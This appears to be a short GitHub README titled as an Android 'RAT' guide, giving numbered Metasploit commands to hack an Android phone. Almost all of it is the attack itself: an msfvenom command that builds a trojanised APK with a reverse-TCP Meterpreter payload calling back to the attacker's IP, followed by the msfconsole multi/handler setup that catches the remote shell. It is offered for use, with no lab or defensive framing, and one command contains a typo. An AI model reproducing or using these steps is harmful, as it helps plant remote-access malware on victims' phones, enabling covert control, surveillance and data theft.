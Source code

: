 # kali_metasploit_rat_for_androd


How to hack android phone using Metasploit.
Commands - 

apt install metasploit-framework

1. msfvenom -p android/meterpreter/reverse_tcp LHOST="Your Ip" LPORT+4444 R > main.apk

2. msfconsole

3. use multi/handler

4. set payload android/meterpreter/reverse_tcp

5. set lhost "your IP"
6. set lport 4444

7. exploit
